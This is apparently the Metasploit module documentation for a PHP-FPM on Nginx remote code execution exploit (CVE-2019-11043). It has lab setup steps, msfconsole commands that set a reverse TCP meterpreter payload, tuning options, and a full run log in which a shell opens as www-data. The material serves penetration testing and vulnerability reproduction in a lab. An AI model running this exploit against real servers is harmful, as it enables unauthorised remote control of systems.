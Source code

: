 This module exploits an underflow vulnerability in versions 7.1.x below 7.1.33, 7.2.x below 7.2.24 and 7.3.x below 7.3.11 of PHP-FPM on Nginx. Only servers with certains Nginx + PHP-FPM configurations are exploitable. This is a port of the original neex's exploit code (see refs.). First, it detects the correct parameters (Query String Length and custom header length) needed to trigger code execution. This step determines if the target is actually vulnerable (Check method). Then, the exploit sets a series of PHP INI directives to create a file (`/tmp/a`) locally on the target, which enables code execution through a query string parameter (`?a=<cmd>`). This is used to execute normal payload stagers. Finally, this module does some cleanup by killing local PHP-FPM workers (those are spawned automatically once killed) and removing the created local file (`/tmp/a`).

## Vulnerable Application
- Install Nginx on Linux (`apt-get install nginx`)
- get the vulnerable PHP:

```
git clone https://github.com/php/php-src
# checkout the fix
git -C php-src checkout ab061f95ca966731b1c84cf5b7b20155c0a1c06a
# checkout the commit previous to the fix
git -C php-src checkout HEAD~1
```

- make sure the default Nginx configuration contains these entries and no script existence checks (like `try_files`):

```
location ~ [^/]\.php(/|$) {
  ...
  fastcgi_split_path_info ^(.+?\.php)(/.*)$;
  fastcgi_param PATH_INFO       $fastcgi_path_info;
  fastcgi_pass   php:9000;
  ...
}
```

See original PoC for details: https://github.com/neex/phuip-fpizdam

An easiest way to setup a vulnerable instance is to use the docker configuration provided by the author (https://github.com/neex/phuip-fpizdam/tree/master/reproducer)

## Verification Steps

  Preparing the target:

  1. `git clone https://github.com/neex/phuip-fpizdam`
  2. `cd phuip-fpizdam/reproducer/`
  3. `docker build -t reproduce-cve-2019-11043 .`
  4. `docker run --rm -p 192.168.6.6:8080:80 --name reproduce-cve-2019-11043 reproduce-cve-2019-11043`

  Running the exploit:

  1. `./msfconsole`
  2. `use exploit/multi/http/php_fpm_rce`
  4. `set RHOSTS 192.168.6.6`
  5. `set RPORT 8080`
  4. `set TARGETURI /script.php`
  6. `set PAYLOAD php/meterpreter/reverse_tcp`
  7. `set LHOST 192.168.6.6`
  8. `run`

## Options

   **TARGETURI**
   Path to a PHP page. This must be a valid page.

## Advanced Options

  **MinQSL**
  Minimum query string length (QSL). The QSL detection engine will iterate starting from this value (1500 by default). This option is required.

  **MaxQSL**
  Maximum query string length (QSL). The QSL detection engine will iterate until this value is reached (1950 by default). This option is required.

  **QSLHint**
  Query string length hint. This value will be used as a QSL candidate. Note that setting this value skips the QSL detection.

  **QSLDetectStep**
  Query string length detect step. The QSL detection engine will iterate with this step value (5 by default). This option is required.

  **MaxQSLCandidates**
  Maximum query string length candidates. When the number of QSL candidates found during the QSL detection phase is greater than this value (10 by default), this indicates that something went wrong and we were not able to detect the correct values. This option is required.

  **MaxQSLDetectDelta**
  Maximum query string length detection delta. This value is the maximum distance between the candidate and the extended values (10 by default). For example, with a value of 20 and QSLDetectStep set to 5, candidate [1700] will be extended to [1680, 1685, 1690, 1695, 1700]. This option is required.

  **MaxCustomHeaderLength**
  Maximum custom header length. This value is the maximum length that will be used for the custom header during the parameters detection (256 by default). This option is required.

  **CustomHeaderLengthHint**
  Custom header length hint. This value will be used as the custom header length. Note that setting this value skips the custom header length detection.

  **DetectMethod**
  Method that will be used to detect if the target is vulnerable. Available methods:

  1. `session.auto_start`: this method consist in setting the `session.auto_start` PHP option to 1. If the response contains `PHPSESSID=` set-cookie value, this means the PHP option has been correctly set and the target is vulnerable.
  2. `output_handler.md5`: this method consist in setting the `output_handler` PHP option to `md5`. If the response is a md5 hash (16 characters), this means the PHP option has been correctly set and the target is vulnerable.


## Scenarios

### Ubuntu 18.04 + nginx 1.14.0 + PHP 7.1.33dev (fpm-fcgi) (built: Feb 14 2020 16:48:15)

```
msf5 > use exploit/multi/http/php_fpm_rce
msf5 exploit(multi/http/php_fpm_rce) > set RHOSTS 192.168.6.6
RHOSTS => 192.168.6.6
msf5 exploit(multi/http/php_fpm_rce) > set RPORT 8080
RPORT => 8080
msf5 exploit(multi/http/php_fpm_rce) > set TARGETURI /script.php
TARGETURI => /script.php
msf5 exploit(multi/http/php_fpm_rce) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf5 exploit(multi/http/php_fpm_rce) > set LHOST 192.168.6.6
LHOST => 192.168.6.6
msf5 exploit(multi/http/php_fpm_rce) > run

[*] Started reverse TCP handler on 192.168.6.6:4444
[*] Sending baseline query...
[*] Detecting QSL...
[+] The target is probably vulnerable. Possible QSLs: [1765]
[*] Doing sanity check...
[*] Detecting attack parameters...
[+] Parameters found: QSL=1760, customh_length=69
[+] Target is vulnerable!
[*] Performing attack using php.ini settings...
[+] Success! Was able to execute a command by appending 'which+which'
[*] Trying to cleanup /tmp/a...
[+] Cleanup done!
[*] Sending payload...
[*] Sending stage (38288 bytes) to 192.168.6.6
[*] Meterpreter session 1 opened (192.168.6.6:4444 -> 192.168.6.6:59177) at 2020-02-14 12:03:45 -0600
[+] Session created
[*] Remove /tmp/a and kill workers...
[+] Done!

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : 832efebeac57
OS          : Linux 832efebeac57 4.9.184-linuxkit #1 SMP Tue Jul 2 22:58:16 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
